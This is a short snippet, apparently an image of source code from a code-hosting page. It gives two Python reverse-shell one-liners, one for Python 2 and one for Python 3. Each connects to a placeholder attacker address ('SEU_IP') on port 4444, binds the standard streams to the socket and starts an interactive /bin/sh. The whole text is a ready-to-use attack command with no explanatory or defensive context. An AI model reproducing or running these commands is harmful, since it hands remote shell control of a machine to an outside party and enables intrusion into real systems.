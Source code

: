 # Python 2
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
